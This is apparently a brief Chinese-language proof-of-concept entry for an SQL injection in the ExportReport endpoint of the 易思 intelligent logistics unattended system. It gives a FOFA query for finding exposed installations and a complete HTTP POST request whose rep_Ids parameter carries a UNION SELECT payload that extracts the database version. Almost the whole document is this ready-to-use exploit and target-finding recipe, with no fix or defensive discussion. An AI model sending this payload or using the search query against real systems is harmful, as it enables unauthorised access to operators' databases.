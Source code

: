## 易思智能物流无人值守系统ExportReport存在SQL注入漏洞

易思智能物流无人值守系统ExportReport存在SQL注入漏洞

## fofa

```javascript
body="/api/SingleLogin"
```

## poc

```javascript
POST /Sys_ReportFile/ExportReport HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
 
rep_Ids=1%27%29+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2C@@VERSION%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+CdNX
```

